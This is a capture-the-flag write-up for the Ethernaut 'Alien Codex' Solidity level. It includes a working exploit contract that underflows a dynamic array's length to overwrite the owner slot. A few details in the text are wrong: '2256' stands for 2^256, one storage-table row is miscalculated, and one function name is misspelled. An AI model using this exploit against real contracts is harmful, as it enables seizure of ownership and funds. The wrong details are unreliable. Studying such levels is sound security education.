 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel19.svg)

You've uncovered an Alien contract. Claim ownership to complete the level.

  Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function makeContact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Solution:
Assuming the dynamic array starts at a slot location `p`, then the slot `p` will contain the total number of elements stored in the array, and the actual array data will be stored at `keccack256(p)`. More info on this can be found in the [Solidity Docs](https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html#mappings-and-dynamic-arrays).

Let's go through the organization of the storage layout in our vulnerable contract:

|Slot Number|Variables|
|---|---|
|0|`bool public contact` and `address private _owner` (both are in slot 0)|
|1|codex.length (Number of elements in the dynamic array|
|..|..|
|..|..|
|keccak256(1)|codex[0] (Array's first element)|
|keccak256(2) + 1|codex[1] (Array's second element)|
|..|..|
|..|..|
|2256 - 1|codex[$2^{256}$ - 1 - unit(keccack256(1))]|
|0| codex[$2^{256}$ - 1 - unit(keccack256(1)) + 1] (slot 0 access, remember overflows?)|

To finish the level we need to do the following steps:

1. Call the `make_contact()` function so that the `contact` is set to `true`. This will allow us to go through the `contacted()` modifier.
2. Call the `retract()` function. This will decrease the `codex.length` by 1. And what happens when you subtract 1 from 0 (initial array position)? You get an underflow. This will change the `codex.length` to be 2256 which is also the total storage capacity of the contract. This will now allow us access to any variables stored in the contract.
3. Call the `revise()` function to access the array at slot 0 and update the value of the `_owner` with our own address. The index `i` can be calculated as shown in the slot table above.

```sol
uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
```

The `_content` is of type `bytes32` which means we need to convert our address to `bytes32`. This can be done using the following code:

```sol
bytes32 myAddress = bytes32(uint256(uint160(tx.origin)));
```

---

## The Exploit

Here's how the exploit code looks:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlienCodex {
  function makeContact() external;
  function record(bytes32 _content) external;
  function retract() external;
  function revise(uint i, bytes32 _content) external;
}

contract PWN {
    IAlienCodex instance;
    constructor(address _instance) {
      instance = IAlienCodex(_instance);
    }

    function pwn() external {
        uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        bytes32 myAddress = bytes32(uint256(uint160(tx.origin)));
        instance.makeContact();
        instance.retract();
        instance.revise(index, myAddress);
    }
}
```

___
This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
